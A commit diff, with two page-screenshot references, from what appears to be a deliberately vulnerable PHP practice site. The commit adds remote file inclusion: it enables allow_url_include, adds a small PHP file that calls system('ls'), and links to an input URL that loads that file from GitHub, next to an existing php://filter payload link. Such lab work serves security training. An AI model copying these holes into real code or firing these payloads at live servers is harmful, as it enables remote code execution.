

Before and after one commit to futabato/WAffle, a PHP site: page /path.php?input=index.php in a window 1280 px wide. Shown: the top 300 px of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
RFIを実装しました

```diff
--- a/vuln/containers/php/php.ini
+++ b/vuln/containers/php/php.ini
@@ -3,3 +3,5 @@ date.timezone = "Asia/Tokyo"
 [mbstring]
 mbstring.internal_encoding = "UTF-8"
 mbstring.language = "Japanese"
+
+allow_url_include = "On"
--- /dev/null
+++ b/vuln/etc/shell.txt
@@ -0,0 +1,3 @@
+<?php
+system("ls");
+?>
--- a/vuln/src/code/index.php
+++ b/vuln/src/code/index.php
@@ -26,6 +26,9 @@
         <li>
             <a href="./cmd.php">os command</a>
         </li>
+        <li>
+            <a href="./rfi.php">RFI</a>
+        </li>
     </ul>
 </body>
 
--- a/vuln/src/code/path.php
+++ b/vuln/src/code/path.php
@@ -14,6 +14,9 @@
         <li>
             <a href="?input=php://filter/convert.base64-encode/resource=index.php">base64(index)</a>
         </li>
+        <li>
+        <a href="?input=https://raw.githubusercontent.com/futabato/WAffle/vuln/vuln/etc/shell.txt?cmd=ls">RFI</a>
+        </li>
     </ul>
     <hr>
     <?php
```
